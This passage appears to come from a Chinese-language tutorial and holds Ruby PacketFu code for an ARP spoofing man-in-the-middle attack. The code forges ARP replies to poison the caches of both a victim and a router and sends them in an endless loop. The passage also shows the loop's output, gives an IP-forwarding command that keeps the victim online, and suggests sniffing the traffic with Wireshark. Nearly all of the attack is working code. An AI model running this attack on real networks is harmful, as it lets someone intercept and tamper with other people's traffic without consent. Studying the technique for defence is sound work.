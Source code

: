 ```
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end 
```

> 注意：不要忘记在系统上启用数据包转发，以允许受害者浏览互联网。
> 
> `echo "1" > /proc/sys/net/ipv4/ip_forward`

返回，是时候开始 wiresharking 了 ;)

```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1 
```

* * *

> ¹. 创建表格的简便方法 - [表格生成器](http://www.tablesgenerator.com/markdown_tables) ↩
> 
> ². 来源：[使用 PacketFu 进行 DNS 欺骗](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/) ↩
